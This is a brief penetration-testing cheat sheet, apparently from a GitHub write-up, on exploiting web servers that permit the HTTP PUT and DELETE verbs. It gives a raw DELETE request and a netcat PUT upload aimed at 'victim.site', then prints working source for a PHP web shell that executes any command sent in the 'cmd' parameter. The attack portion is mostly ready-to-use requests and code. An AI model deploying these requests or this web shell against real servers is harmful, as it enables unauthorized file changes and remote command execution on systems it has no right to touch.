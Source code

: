 # Using http verbs/methods to exploit misconfigured webapps:

verbs:
- `HEAD` (used to get the response headers)
- `GET` (used to request resources like web pages, images)
- `POST` (used to submit html form data)
- `PUT` (used to upload a file to the server)
- `DELETE` (used to remove a file from the server)
- `OPTIONS` (used to check the web server for enabled http verbs)


### Exploit DELETE verb:
- `DELETE /path/to/resource.txt`

### Exploit PUT verb:
you have to know the size of the file you want to upload on the server.
for that we can use the unix utility `wc`.

Command: `wc -m payload.php`
Response: `20 payload.php`
```http
$ nc victim.site 80 
PUT /payload.php HTTP/1.0
Content-type: text/html
Content-length: 20

<?php phpinfo(); ?>
```

- Uploading PHP Shell:
```php
<?php 
if (isset($_GET['cmd']))
{
	$cmd = $_GET['cmd'];
	echo '<pre>';
	$result = shell_exec($cmd);
	echo $result;
	echo '</pre>';
}
?>
```

### The PHP Shell in use: 
![Pasted image 20220124080435](https://user-images.githubusercontent.com/33517160/156137337-85b71439-6f42-40df-aec9-8afc7a560913.png)

**By 0xRar**
